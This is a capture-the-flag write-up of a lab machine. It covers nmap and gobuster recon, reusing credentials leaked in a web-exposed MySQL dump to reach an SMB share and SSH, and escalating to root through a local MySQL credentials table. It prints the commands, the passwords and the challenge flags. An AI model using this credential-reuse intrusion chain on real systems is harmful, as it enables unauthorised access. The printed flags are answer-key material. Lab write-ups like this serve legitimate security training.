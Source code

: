 ### Session : 

![logo](assets/image.png)

### Recon
We ran an `nmap` scan as usual to check the open ports in this machine before attacking :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 45.33.55.121 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-08 22:39 +0530
Nmap scan report for 45-33-55-121.ip.linodeusercontent.com (45.33.55.121)
Host is up (0.25s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:d9:51:95:65:5c:90:a8:63:88:c3:e4:0f:5a:1a:81 (RSA)
|   256 c2:18:1c:e7:3b:85:0f:0e:09:40:41:42:a0:c5:44:11 (ECDSA)
|_  256 8b:18:ce:2a:b6:fc:db:3c:16:c6:05:cf:cc:ff:1e:9c (ED25519)
80/tcp   open     http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blume
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp  open     netbios-ssn Samba smbd 4.6.2
445/tcp  open     netbios-ssn Samba smbd 4.6.2
Host script results:
| smb2-time: 
|   date: 2024-02-08T17:09:50
|_  start_date: N/A
|_nbstat: NetBIOS name: LOCALHOST, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.23 seconds

```

We found that :
- Port 80 runs `Apache httpd 2.4.41` Webserver
- Port 139,445 runs `Samba smbd 4.6.2` 

To enumerate Port 80, we used a web browser and visited the ip address of the machine and was able to see a website :

![Image1](assets/image1.png)

Since we saw that port 80 was open, We ran a Gobuster scan to look for any hidden directories so we can visit it. We were able to see two new directories as `/developer`.

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ gobuster dir -u http://45.33.55.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://45.33.55.121
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://45.33.55.121/assets/]
/css                  (Status: 301) [Size: 310] [--> http://45.33.55.121/css/]
/developer            (Status: 301) [Size: 316] [--> http://45.33.55.121/developer/]
/js                   (Status: 301) [Size: 309] [--> http://45.33.55.121/js/]

```

We visited the `/development` directory and was able to see a `dump.txt` file:

![Image2](assets/image2.png)

While reading it, we were able to see that it was a MySQL dump and contained some credentials. However, since we didn't have any MySQL ports open, we couldn't use it yet.

![Image3](assets/image3.png)

### Samba

We then used those credentials to access the SMB Port, We used `smbclient` to view the available shares and was able to use the credentials we found earlier and access .

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ smbclient -L //45.33.55.121 -U chami 
WARNING: no network interfaces found
Password for [WORKGROUP\chami]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        LNBTI           Disk      
        IPC$            IPC       IPC Service (localhost server (Samba, Ubuntu))
```

We then connected to the smb share `LNBTI` as the user `chami` using the below command. We were then able to find a `backup.txt` file. We used the `get` command again and downloaded the file to our local machine and exited the service.

![Image4](assets/image4.png)

We then again used the `cat` command to see the contents inside the file, And we were able to get the password of the user `chami` . so we used ssh to login into chami  :

```
┌──(dest1ny㉿kali-linux-2022-2)-[~]
└─$ cat backup.txt 
SMB Backup Completed on 8.02.2024 : chami:blahblahblah : Ubuntu Linux 20LTS
```

We were then able to grab the user flag and a Mysql credentials just as from the dump we found eariler :

![Image5](assets/image5.png)

We had a question saying to find a file named `findmeifucan.txt` in our questions. So we used the `find` command with the `-name` tag to search for the file and was able to see that it inside a hidden directory and we used the `cat` command to view the contents of the file.

Note : In linux systems, Hidden files has a `.` in front of the file name. 

```
chami@localhost:~$ find / -name "findmeifucan.txt" 2>/dev/null
/home/chami/.backup/findmeifucan.txt
```

Here's a breakdown of the command `find / -name "findmeifucan.txt" 2>/dev/null`:

1. **`find`**: This is the command used for searching files and directories within a specified directory hierarchy.

2. **`/`**: This specifies the starting point of the search. In this case, `/` denotes the root directory, meaning the search will start from the root of the filesystem and traverse downward.

3. **`-name "findmeifucan.txt"`**: This is an option for `find` that specifies the name of the file to search for. In this case, it's searching for a file named "findmeifucan.txt". The `-name` option is used to match filenames using shell-style wildcards, so `"findmeifucan.txt"` is the exact filename being searched for.

4. **`2>/dev/null`**: This part of the command deals with error handling. 
   - `2>`: This redirects the standard error stream (file descriptor 2).
   - `/dev/null`: This is a special device file that discards all data written to it.

```
chami@localhost:~$ cat /home/chami/.backup/findmeifucan.txt
LNBTI{G00d_j0b_f1nd1ng_m3}
```

### Privilege Escalation
We checked the active ports using the command `ss -tuln` and were able to see that port 3306 (MySQL) is open locally (You can find this using Linpeas too).

![Image6](assets/image6.png)

We connected to the mysql service using the username `root` and password `password` and was able to grab the flag and the password of the root :

```mysql
chami@localhost:~$ mysql -u root -p                                
Enter password:                                                     
Welcome to the MySQL monitor.  
Commands end with ; or \g.           
Your MySQL connection id is 8                                 
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)
Copyright (c) 2000, 2024, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| employees          |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

```

```mysql
mysql> use employees;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_employees |
+---------------------+
| credentials         |
+---------------------+

```

```mysql
mysql> select * from credentials;
+------+--------------------------+
| user | password                 |
+------+--------------------------+
| root | LNBTI##LNBTI123#         |
| flag | LNBTI{InT3rn4l_S3rvic3s} |
+------+--------------------------+
2 rows in set (0.00 sec)
```

We were able to use the `su` command and switched into the `root` user and grab the root flag:

![Image7](assets/image7.png)

Optional : We can use ssh to login into the `root` user too by using the command :

```
ssh root@{MACHINE_IP}
```

